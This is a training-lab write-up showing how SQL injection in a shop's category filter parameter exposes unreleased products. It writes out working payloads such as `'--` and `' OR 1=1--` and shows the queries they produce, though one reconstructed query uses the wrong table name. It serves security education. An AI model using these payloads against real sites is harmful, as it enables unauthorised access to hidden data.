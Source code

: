 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

>SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

## Attempt

![pic1](pics/pic1.png)

This is the website given and we can see that the link given to us is:

> https://0a7e00070410d050812f0711009f00d6.web-security-academy.net/

When we click into a category, the link changes to:

> https://0a7e00070410d050812f0711009f00d6.web-security-academy.net/filter?category=Clothing,+shoes+and+accessories

We can clearly see the SQL request 
>filter?category=Clothing,+shoes+and+accessories

Therefore the code in SQL would look like this:

> SELECT * FROM filter WHERE category = 'Clothing, shoes and accessories' AND released = 1

We want to see all the products from this page, therefore there are a few methods we can try. 
* To look specifically into the category for all products, we can comment the _"AND released = 1"_ part out

    >filter?category=Clothing,+shoes+and+accessories'--

* That would cause the SQL request to look like:

    > SELECT * FROM filter WHERE category = 'Clothing, shoes and accessories'--' AND released = 1

* Thus effectively commenting out the part that shows released products only.

To see all the products in the website, released and unreleased, we inject a TRUE statement, so that by Universal Bound Laws, the query will always be true and return all the products.

    >filter?category=Clothing,+shoes+and+accessories'+OR+1=1--

* That would cause the SQL request to look like:

    > SELECT * FROM filter WHERE category = 'Clothing, shoes and accessories' OR 1=1--' AND released = 1

* This causes the database to check condition OR TRUE, which always returns TRUE, and it also comments out the part that only displays released products.

